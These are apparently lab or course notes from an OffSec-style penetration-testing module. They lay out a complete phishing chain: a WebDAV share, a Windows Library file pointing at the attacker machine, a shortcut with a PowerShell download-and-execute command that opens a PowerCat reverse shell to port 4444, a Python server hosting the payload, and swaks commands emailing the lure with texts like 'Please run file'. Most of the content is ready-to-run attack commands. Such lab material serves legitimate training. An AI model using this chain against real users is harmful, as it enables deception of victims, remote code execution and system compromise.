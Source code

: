 # Send email

Phishing for access

{% code title=" Starting WsgiDAV on port 80" overflow="wrap" lineNumbers="true" %}
```
┌──(kali㉿kali)-[~/offsec/beyond]
└─$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/offsec/beyond/webdav/

```
{% endcode %}

Now, let's copy the Windows Library code we previously used in the Client-Side Attacks Module, paste it into Visual Studio Code, and check that the IP address points to our Kali machine.

{% code title="Windows Library code for connecting to our WebDAV Share" overflow="wrap" lineNumbers="true" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}



Let's save the file and transfer it to /home/kali/beyond on our Kali machine.

Next, we'll create the shortcut file on WINPREP. For this, we'll right-click on the Desktop and select New > Shortcut. A victim double-clicking the shortcut file will download PowerCat and create a reverse shell. We can enter the following command to achieve this:

{% code title="" overflow="wrap" lineNumbers="true" %}
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
{% endcode %}

Once we enter the command and install as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory.

Our next step is to serve PowerCat via a Python3 web server. Let's copy powercat.ps1 to /home/kali/beyond and serve it on port 8000 as we have specified in the shortcut's PowerShell command.

{% code title="Serving powercat.ps1 on port 8000 via Python3 web server" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -attach @config.library-ms --server 192.168.x.x --body "Please run file" --header "Subject: Problems"
swaks --to dave.wizard@supermagicorg.com --from test@supermagicorg.com --auth-password test -attach config.Library-ms --server 192.168.200.199 --body "please click here" --header "Subject: Staging Script" -ap
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.237.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```
{% endcode %}
